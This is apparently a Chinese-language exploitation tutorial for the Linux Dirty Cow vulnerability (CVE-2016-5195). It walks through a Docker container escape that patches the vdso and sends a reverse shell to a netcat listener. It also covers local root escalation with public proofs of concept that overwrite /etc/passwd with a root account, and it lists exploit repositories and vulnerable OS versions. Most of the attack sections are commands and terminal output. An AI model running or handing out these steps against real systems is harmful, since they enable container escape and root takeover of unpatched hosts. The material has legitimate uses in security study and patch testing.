







描述 Dirty Cow（CVE-2016-5195）是Linux内核中的权限提升漏洞，源于Linux内核的内存子系统在处理写入时拷贝（copy-on-write, Cow）存在竞争条件（race condition），允许恶意用户提权获取其他只读内存映射的写访问权限。竞争条件意为任务执行顺序异常，可能导致应用崩溃或面临攻击者的代码执行威胁。利用该漏洞，攻击者可在其目标系统内提升权限，甚至获得root权限。
区别 Linux中利用Dirty Cow 和 docker中利用Dirty Cow的区别
Linux：漏洞具体为，get_user_page内核函数在处理Copy-on-Write(以下使用COW表示)的过程中，可能产出竞态条件造成COW过程被破坏，导致出现写数据到进程地址空间内只读内存区域的机会。修改su或者passwd程序就可以达到root的目的。具体分析请查看官方分析。
Docker：在容器中利用VDSO内存空间中的“clock_gettime() ”函数可对脏牛漏洞发起攻击，令系统崩溃并获得root权限的shell，且浏览容器之外主机上的文件。
利用POC：
Linux：
1 2 3 4 官方POC：https://github.com/dirtycow/dirtycow.github.io 提权POC：https://github.com/FireFart/dirtycow 提权POC：https://github.com/gbonacini/CVE-2016-5195
Docker:
1 逃逸POC：https://github.com/gebl/dirtycow-docker-vdso
漏洞利用条件
docker与宿主机共享内核，如果要触发这个漏洞，需要宿主机存在dirtyCow漏洞的宿主机。（测试中发现在宿主机版本为ubuntu-14.04.5可以成功利用poc，在宿主机版本为Ubuntu 18.04.6 LTS时利用失败，提示：Segmentation fault）
The program was successfully used with:
RHEL7 Linux x86_64;
RHEL4 (4.4.7-16, with “legacy” version)
Debian 7 (“wheezy”);
Ubuntu 14.04.1 LTS
Ubuntu 14.04.5 LTS
Ubuntu 16.04.1 LTS
Ubuntu 16.10
Linux Mint 17.2
利用方式 Docker 逃逸漏洞利用过程：
查看版本：
1 2 3 4 5 6 7 8 9 10 11 12 宿主机： root@ubuntu:~ Linux ubuntu 4.4.0-31-generic root@ubuntu:~ 4.4.0-31-generic 容器： root@1447b7d06488:/ Linux 1447b7d06488 4.4.0-31-generic root@1447b7d06488:/ 4.4.0-31-generic
在容器中下载利用poc，并编译
1 2 3 git clone https://github.com/gebl/dirtycow-docker-vdso.git cd /dirtycow-vdso/make

攻击机监听端口，容器执行poc并成功接收到宿主机的shell
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 攻击机： nc -l 4444 容 器： root@72b3d24fadde:/dirtycow-vdso-master nasm -f bin -o payload payload.s xxd -i payload payload.h cc -o 0xdeadbeef.o -c 0xdeadbeef.c -Wall cc -o 0xdeadbeef 0xdeadbeef.o -lpthread root@72b3d24fadde:/dirtycow-vdso-master root@72b3d24fadde:/dirtycow-vdso-master root@72b3d24fadde:/dirtycow-vdso-master 0xdeadbeef 0xdeadbeef.c 0xdeadbeef.o LICENSE Makefile README.md payload payload.h payload.s tools root@72b3d24fadde:/dirtycow-vdso-master root@72b3d24fadde:/dirtycow-vdso-master root@72b3d24fadde:/dirtycow-vdso-master root@72b3d24fadde:/dirtycow-vdso-master root@72b3d24fadde:/dirtycow-vdso-master root@72b3d24fadde:/dirtycow-vdso-master [*] payload target: 10.0.4.68:4444 [*] exploit: patch 1/2 [*] vdso successfully backdoored [*] exploit: patch 2/2 [*] vdso successfully backdoored [*] waiting for reverse connect shell...



成功获取宿主机的shell
Linux–脏牛提权内容 dcow 可能是对漏洞 CVE-2016-5195 的利用。在易受攻击的系统上以非特权用户身份运行该程序，它将修改 /etc/passwd 文件,在成功执行的情况下，使用该密码执行“su”，root shell 将可用。
普通用户将exp一下载到本地，使用gcc -pthread dirty.c -o dirty -lcrypt命令对dirty.c进行编译，生成一个dirty的可执行文件。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 $ id uid=1001(test ) gid=1001(test ) groups=1001(test ) $ whoami test $ git clone https://github.com/FireFart/dirtycow $ gcc -pthread dirty.c -o dirty -lcrypt $ ls dirty dirty.c README.md $ ./dirty mypassword /etc/passwd successfully backed up to /tmp/passwd.bak Please enter the new password: mypassword Complete line: firefart:fiW.uD9O/GMV2:0:0:pwned:/root:/bin/bash mmap: 7f169daa8000


通过su - firefart 并输入密码：mypassword，获取root权限
1 2 3 4 5 $ su - firefart Password: firefart@wuala:~ uid=0(firefart) gid=0(root) groups=0(root) firefart@wuala:~

恢复方式，将/tmp/passwd.bak 恢复到/etc/passwd
1 2 3 4 5 6 firefart@wuala:~ firefart@wuala:~ logout su: User not known to the underlying authentication module $ exit root@wuala:/tmp
第二种方式 下载poc脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 下载脚本并编译 https://github.com/gbonacini/CVE-2016-5195 $ whoami test $ ./dcow -s Running ... Password overridden to: dirtyCowFun Received su prompt (Password: ) root@wuala:~ root@wuala:~ root@wuala:~ root@wuala:~ root root@wuala:~